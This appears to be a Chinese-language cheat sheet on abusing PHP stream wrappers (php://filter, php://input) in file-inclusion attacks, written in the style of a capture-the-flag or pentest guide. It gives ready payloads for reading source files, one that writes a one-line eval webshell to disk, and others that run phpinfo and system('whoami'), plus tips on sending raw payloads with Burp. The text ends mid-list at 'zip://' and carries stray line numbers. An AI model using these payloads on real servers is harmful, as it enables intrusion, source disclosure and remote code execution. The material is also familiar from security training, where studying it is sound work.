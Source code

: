 
字符串过滤器（通过管道符/连接，从左往右执行）

​ string.rot13 对字符串执行ROT13转换

​ string.toupper转换为大写

​ string.tolower 转换为小写

​ string.strip_tags去除html和php标记（可以用于绕过死亡EXIT）

转换过滤器

​ convert.base64-encode & convert.base64-decode ：base64编码/解码 （通过管道符/连接，从左往右执行）

​ convert.quoted-printable-encode & convert.quoted-printable-decode：将 quoted-printable 字符串转换为 8-bit 字符串

压缩过滤器（通过管道符/连接，从左往右执行）

​ mcrypt.tripledes和mdecrypt.tripledes等

限制条件：
allow_url_fopen:off/on

allow_url_include:off/on

相对路径/绝对路径

利用姿势：
1.读取文件

```
#resource为需要请求的资源：
php://filter/read=zlib.deflate/convert.base64-encode/string.toupper/resource=../index.php    将../index.php进行zlib压缩再base64再转为大写。

php://filter/read=convert.base64-encode/resource=xxx			将xxx进行base64显示	
```
2.在使用include、require、include_once、require_once时，可将文件当做php脚本执行(一般配合上传文件、写日志等方式getshell)。

php://filter/resource=xxx	
1
php://input
POST 请求的情况下，可以访问请求的原始数据的只读流。

格式: php://input，POST请求中写入脚本
限制条件：
allow_url_fopen ：off/on

allow_url_include：on

防坑指南：
hackbar中发送的POST请求进行了url编码的不行，需要直接使用burp来发送未url编码的脚本内容。





利用姿势：
直接的命令执行漏洞，可写入木马、执行系统命令等，可参考命令执行漏洞的利用和绕过方式。

#在当前路径写入一句话木马
<?fputs(fopen("shell.php","w"),"<?php eval($_post['xxx'];?>")?>	
#执行phpinfo
<?php phpinfo();?>
#执行系统命令
<?php system('whoami');?>
1
2
3
4
5
6
zip://